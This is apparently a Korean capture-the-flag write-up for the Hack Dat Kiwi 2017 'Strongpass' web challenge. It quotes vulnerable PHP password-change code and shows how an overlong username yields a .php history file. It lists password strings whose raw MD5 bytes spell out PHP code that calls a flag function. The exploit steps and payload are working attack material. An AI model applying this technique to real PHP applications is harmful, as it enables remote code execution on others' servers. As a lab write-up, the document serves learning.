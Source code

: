 # [WEB] Hack Dat Kiwi CTF 2017 - Strongpass

# Description

>   문제 페이지 닫힘

# Analysis

해당 문제는 소스가 주어졌다.

기능은 크게 4가지이며 회원 가입, 로그인, 로그아웃, 패스워드 변경이다.

해당 기능은 `user.php`에 정의되어 있다.

4가지의 기능 중, 로그인이나 로그아웃에서는 취약점이 발생하지 않을 것 같았고, 패스워드 변경에서는 취약점에 발생하게 좋게 생겼다.

패스워드 변경 함수의 소스를 보자

```php
function changepass($oldpass,$newpass)
{
	if (!isset($_SESSION['login'])) return false;
	$userid=$_SESSION['login']['id'];
	if (strlen($newpass)<8) return false;
	if (!sql("select * from users where id=? and password=?",$userid,md5($oldpass)))
		return false;
	if ($newpass===$oldpass) return false;
	function get_password_history()
	{
		$file=password_history_file();
		if (!file_exists($file))
			return [];
		else
			return explode(PHP_EOL,file_get_contents($file)); 
	}
	function password_history_file()
	{
		$username=$_SESSION['login']['username'];
		return realpath(__DIR__."/history")."/".substr("{$username}.pss",0,255);//filename length limit
	}
	//check if password not used before
	$hash=hex2bin(md5($newpass));
	$pass_history=get_password_history();
	foreach ($pass_history as $one_of_old_passes)
		if ($hash===$one_of_old_passes)
			return false;
	array_unshift($pass_history, $hash);
	file_put_contents(password_history_file(), implode(PHP_EOL,$pass_history));
	return sql("update users set password=? where id=?",md5($newpass),$userid);
}
```

우선 변경할 패스워드가 8자리 이상이고, 이전에 사용하지 않은 패스워드여야 변경이 된다.

변경했던 패스워드 내역은 ./history/유저네임.pss 안에 패스워드를 md5 해쉬한 값을 raw값으로 저장한다.

취약점은 이 부분에서 발생한다.

또한 config.php에 flag()함수를 호출하면 flag를 리턴해준다.

# Exploit

1. php command injection upload using changepass

## 1. php command injection using changepass

회원 가입할 때 아이디의 길이를 제한하지 않기 때문에 아이디를 255자보다 길게 가입이 가능하다.

`username=11111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111.php`

아이디를 길게하면 패스워드 변경할 때 저장되는 파일이름을 .php로 저장하여 php를 실행할 수 있게 된다.

`/history/11111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111.php`

우리가 플래그를 얻기위해 php에 저장할 내용은 다음과 같다.

```php
<?
	$a=flag;
	$a();
?>
```

이제 md5의 raw값으로 php코드를 만들기 위해 다음 문자열로 시작하는 md5값을 구해보자.

1. \<?# : !wo352rgxkf8
2. \$a# : G14\$W41KER
3. =# : TCCU6IDENTTFD
4. f.# : Bvsycr9n9iwohnja
5. l.# : NIKF0RIDI5
6. a.# : 86dpqerat
7. g;# : dxvoowxIqS4E$
8. $a# : crs3t4bkedkwstf
9. ()# : HAGO580WBYKDLTIVP
10. ;# : Kfmrwgbmncahe
11. ?> : pb5wd26lqed4

변경한 패스워드는 파일에 저장되므로, 위 md5값이 나오는 패스워드를 `?>`부터 역순으로 변경한다.

그러면 최종적으로 아래와 같이 완성된다.

```php
<?#
  $a#
  =#
  f.#
  l.#
  a.#
  g;#
  $a#
  ()#
  ;#
?>
```

이제 패스워드가 저장된 파일인 `111...1.php`에 접속하면 flag를 얻을 수 있다.



